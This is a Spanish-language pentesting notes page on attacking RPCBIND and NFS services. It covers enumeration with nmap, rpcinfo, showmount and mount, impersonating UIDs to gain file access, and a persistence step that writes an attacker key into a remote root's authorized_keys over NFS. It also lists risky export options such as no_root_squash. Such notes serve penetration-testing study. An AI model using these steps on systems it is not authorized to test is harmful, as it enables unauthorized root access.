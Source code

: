 ```yaml
---
description: >-
  Explotar los servicios RPCBIND y NFS en conjunto para obtener acceso a
  archivos compartidos.
---
```


# 111, 2049 - RPCBIND Y NFS

## ¿**QUE ES NFS?**

### Información básica

Network File System o NFS por sus siglas en inglés, es un protocolo para un sistema de archivos distribuido, el cual permite a un usuario en una computadora cliente el acceso hacia archivos a través de la red como si accediera a un almacenamiento local.

Es un servicio de cliente-servidor y, aunque tiene el mismo propósito que SMB no se habla con SMB.

El protocolo NFS no tiene ningún mecanismo de autenticación o autorización. La autorización se da con la información disponible en el sistema de archivos del servidor. Este se encarga de traducir la información de usuario provista por el cliente a la que el sistema de archivos entiende para comprobar si el usuario tiene autorización.

La autenticación más común es via UNIX UID / GID y miembros de grupos.&#x20;

{% hint style="danger" %}
El problema es que muchas veces el servidor y el cliente no tienen mapeados de la misma manera los UID / GID. Esto significa que el grupo NFS\_USERS no tiene por qué tener el mismo GID en el servidor que en el cliente. \
Esto puede dar lugar a que los miembros de un grupo diferente del cliente sean los que pueden acceder a los archivos compartidos.
{% endhint %}

**Puerto por defecto: 2049**

### Versiones

| Versión | Características                                                                                                                                                                                                                                                                                              |
| :-----: | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `NFSv2` | <p>Es es más viejo pero es soportado por muchos sistemas.</p><p>Fue inicialmente operado por UDP.</p>                                                                                                                                                                                                        |
| `NFSv3` | <p>Tiene más características, incluyendo:</p><p></p><p>Archivos de tamaño variable.</p><p>Mejor sistema de reporte de errores.</p><p>No es completamente compatible con NFSv2</p>                                                                                                                            |
| `NFSv4` | <p>Incluye Kerberos</p><p>Funciona con firewalls y en internet</p><p>No necesita mapeado de puertos</p><p>soporta ACLs</p><p>Acepta operaciones en base al estado</p><p>Mejora el rendimiento</p><p>Mejora la seguridad</p><p></p><p>Es la primera versión que tiene un protocolo desarrollado como tal.</p> |

## **¿QUE ES RPCBIND?**

&#x20;   RPC o Remote Procedure Call es una técnica para construir sistema distribuidos, y aplicaciones cliente / servidor. Básicamente permite a un programa sobre una máquina llamar a una subrutina sobre otra máquina. RPC no es un protocolo de transporte; en lugar de ello, es un método para utilizar características existentes de una comunicación de una manera transparente. En servidores Unix o similares se debe ser conscientes de la aplicaciones que utilizan RPC.

**Puerto por defecto: 111**

## ENUMERACIÓN

### Nmap scripts

```
nfs-ls # Lista los discos y comprueba permisos.
nfs-showmount #Como el comando showmount.
nfs-statfs #Muestra estadísticas del disco compartido.
```

### Montar un recurso

**`rpcinfo -p ip`**\
La opción “-p” evalúa al portmapper del host, e imprime una lista de todos los programas RPC registrados.

**`showmount -e ip`**\
Se utiliza el comando “showmount” para mostrar información de montaje sobre un servidor NFS. La opción “-e” muestra la lista de exportación del servidor NFS.

**`mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock`**

Si la “/” raíz del sistema de archivos del objetivo de evaluación está siendo exportado, entonces es factible montar localmente este sistema de archivos. Con el comando "mount" se utiliza la opción “-t” para indicar el tipo del sistema de archivos a montar. La opción “-o” define otras opciones, para este presente ejemplo el uso de la opción “nolock” permite a las aplicaciones bloquear archivos, pero tales bloqueos proporcionan exclusión únicamente contra otras aplicaciones ejecutándose en el mismo cliente.

## PERMISOS

En el caso de que se haya montado un recurso en el que solo un usuario con un UID concreto tenga permisos, podemos generar en nuestro sistema un usuario con el mismo UID y así obtener permisos.

{% hint style="warning" %}
**NFSv4** tiene un sistema de seguridad que impide ver desde otro host el UID del usuario propietario. En ocasiones se pueden utilizar varias versiones de NFS, para usar una anterior utilizamos -o vers=2.\
\
**`mount -t nfs -o vers=2 ip:ruta`**
{% endhint %}

## EXPLOTACIÓN

### **EXPLOTANDO AUTHORIZED\_KEYS**

Una vez en esta carpeta compartida y si el host tiene el puerto 22 abierto (ssh) podemos generar un par de claves rsa (sabemos cuales acepta gracias al resultado de nmap) con ssh-keygen y después incluimos la clave publica en el archivo ./.ssh/authorized\_keys

**`ssh-keygen`**

**`cat /tmp/id_rsa.pub >> FSremoto/root/.ssh/authorized_keys`**

**`ssh -i /tmp/id_rsa root@192.168.0.X ssh user@ip`**

## Explotando configuraciones peligrosas

#### Archivos de configuración

```
/etc/exports
/etc/lib/nfs/etab
```

#### Configuraciones peligrosas

* `rw` -> Permiso de Lectura y Escritura.
* `insecure` -> Se utilizarán puertos por encima del 1024.
* `nohide` ->  Si otro sistema de archivos ha sido montado en un directorio exportado, este directorio será exportado con sus propias entradas.
* `no_root_squash` -> Todos los archivos creados por root siguen teniendo UID/GID 0. Si está desactivado, al usuario root se le asigna un usuario nfsnobody para evitar abusar de SUIDs.
* `no_all_squash`

## ESCALADA DE PRIVILEGIOS

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe" %}
